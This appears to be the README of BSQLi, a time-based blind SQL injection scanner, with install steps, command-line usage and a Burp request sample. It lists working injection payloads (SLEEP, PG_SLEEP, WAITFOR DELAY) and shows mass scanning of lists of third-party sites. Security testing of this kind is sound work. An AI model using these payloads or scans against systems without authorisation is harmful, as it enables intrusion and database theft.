 # BSQLi - Blind SQL Injection Scanner
**BSQLi** is an advanced Blind SQL Injection scanner that uses time-based detection techniques to identify vulnerabilities in web applications.
![](https://github.com/Mr-r00t11/BSQLi/blob/main/img/BSQLi.png?raw=true)
## Key Features
- 🔍 **Automatic Parameter Detection**: Automatically analyzes URLs, request bodies, cookies, and JSON parameters
- ⏱️ **Time-Based Detection**: Identifies vulnerabilities through response delays
- 📁 **Burp Suite Compatibility**: Directly imports Burp Suite request files
- 🎯 **Flexible Scanning**: Supports single targets and massive lists
- 📊 **Detailed Reporting**: Generates comprehensive vulnerability reports

## Installation
```bash
git clone https://github.com/Mr-r00t11/BSQLi.git
cd BSQLi
pip3 install requests urllib3
```

## Basic Usage
### Single URL Scanning
```bash
# Basic URL scan
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt

# With custom threshold
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt -t 5

# Specific parameter testing
python3 BSQLi.py -u "http://example.com/page.php?id=1&search=test" -w payloads.txt -p "id"
```

### Using Burp Suite Files
```bash
# Scan from Burp file
python3 BSQLi.py -r request.txt -w payloads.txt

# With verbose mode for debugging
python3 BSQLi.py -r request.txt -w payloads.txt -v
```

### Bulk Scanning
```bash
# Scan URL list
python3 BSQLi.py -l urls.txt -w payloads.txt

# With custom timeout
python3 BSQLi.py -l urls.txt -w payloads.txt --timeout 60
```

### Generating Reports
```bash
# Save results to file
python3 BSQLi.py -u "http://example.com/page.php?id=1" -w payloads.txt -o report.txt

# Bulk scan with report
python3 BSQLi.py -l urls.txt -w payloads.txt -o bulk_report.txt
```

## Practical Examples
### Example 1: Simple Target
```bash
python3 BSQLi.py -u "http://testphp.vulnweb.com/artists.php?artist=1" -w payloads/time-based.txt
```

### Example 2: With Burp File
```bash
# Export request from Burp Suite and save as 'request.txt'
python3 BSQLi.py -r request.txt -w payloads/time-based.txt -v
```

### Example 3: Mass Website Scanning
```bash
# Create 'targets.txt' file with URLs:
# http://site1.com/page?q=test
# http://site2.com/search?id=123
# http://site3.com/api/user?uid=1

python3 BSQLi.py -l targets.txt -w payloads/time-based.txt -t 8 -o scan_results.txt
```

### Example 4: Specific Parameter
```bash
python3 BSQLi.py -u "http://example.com/login?user=admin&pass=123" -w payloads.txt -p "user"
```

## Advanced Options
```bash
# Verbose mode for debugging
python3 BSQLi.py -u "http://example.com" -w payloads.txt -v

# Custom timeout (seconds)
python3 BSQLi.py -u "http://example.com" -w payloads.txt --timeout 45

# More sensitive detection threshold
python3 BSQLi.py -u "http://example.com" -w payloads.txt -t 3
```

## Input Formats
```bash
http://site1.com/page?param=value
http://site2.com/search?q=test
https://site3.com/api/data?id=123
```

### Payloads File (`-w`)
```bash
' OR SLEEP(5)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
'||PG_SLEEP(5)--
' WAITFOR DELAY '00:00:05'--
```

### Burp Suite File (`-r`)
```bash
GET /page.php?id=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded
```

## Detection Capabilities
- ✅ **GET/POST Parameters**
- ✅ **Cookies**
- ✅ **JSON Parameters**
- ✅ **Custom Headers**
- ✅ **HTTP Redirects**
- ✅ **Multiple HTTP Methods**

## Important Notes
- ⚠️ Only use on authorized systems
- 🔒 Script does not apply encoding to payloads
- 📈 Adjust threshold according to application latency
- 🐛 Use `-v` for debugging if issues occur
